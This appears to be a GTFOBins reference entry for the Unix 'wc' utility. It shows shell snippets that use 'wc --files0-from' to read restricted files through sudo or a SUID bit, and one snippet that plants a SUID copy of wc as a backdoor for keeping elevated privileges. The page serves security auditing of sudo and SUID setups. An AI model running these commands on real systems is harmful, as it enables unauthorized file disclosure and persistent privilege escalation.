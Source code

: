 # GTFOBin: wc

The file content is parsed as a sequence of `\x00` separated paths. On error the file content appears in a message, so this may not be suitable to read binary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
wc --files0-from "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which wc) .

LFILE=file_to_read
./wc --files0-from "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo wc --files0-from "$LFILE"
```